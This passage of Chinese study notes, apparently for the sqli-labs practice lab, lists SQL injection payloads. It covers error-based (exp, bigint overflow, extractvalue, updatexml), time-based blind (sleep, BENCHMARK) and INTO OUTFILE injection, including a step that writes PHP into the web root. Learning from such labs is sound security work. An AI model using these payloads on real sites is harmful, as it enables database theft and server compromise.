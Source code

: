 ```
     - 以上两条是报错注入常用手法，注意字段数为3；
     - ?id=1' union select 1,2, (exp(~(select * FROM(SELECT USER())a)))-- 利用 double 数值类型超出范围进行报错注入；
     - ?id=1' union select 1,2, !(select * from (select user())x) - ~0-- 利用 bigint 溢出进行报错注入；
     - ?id=1' union select 1,2,3 from (select NAME\_CONST(version(),1),NAME\_CONST(version(),1))x;-- 利用数据的重复性；
     - ?id=1' and extractvalue(1,concat(0x7e,(select @@version),0x7e))-- 
     - ?id=1' and updatexml(1,concat(0x7e,(select @@version),0x7e),1)--
     - ?id=1' union SELECT * FROM (SELECT(name\_const(version(),1)),name\_const(version(),1))a--
     - 上面三条利用的是xpath 函数报错注入；
  3. 延时注入：
     - ?id=1' and if(ascii(substr(database(),1,1))=115,1,sleep(5))-- 利用 sleep()函数进行注入，正确时输出时间不变，错误时会有 5 秒的时间延时；
     - ?id=1' UNION SELECT (IF(SUBSTRING(current,1,1)=CHAR(115),BENCHMARK(50000000,ENCODE('MSG','by 5 seconds')),null)),2,3 FROM (select database() as current) as tb1-- 当结果正确的时候，运行 ENCODE('MSG','by 5 seconds')操作 50000000 次，会占用一段时间；
- SELECT * FROM users WHERE id="" LIMIT 0,1;
  - $id = '"'.$id.'"';
  - $sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
  - 只是将''变成""；
```

#### 导入导出（Less7-）：

```
- SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1
  - ?id=1')) UNION SELECT 1,2,3 into outfile "/var/www/html/1.txt"--
  - ?id=1')) UNION SELECT 1,2,<?php phpinfo();?> into outfile "/var/www/html/1.txt"--
```

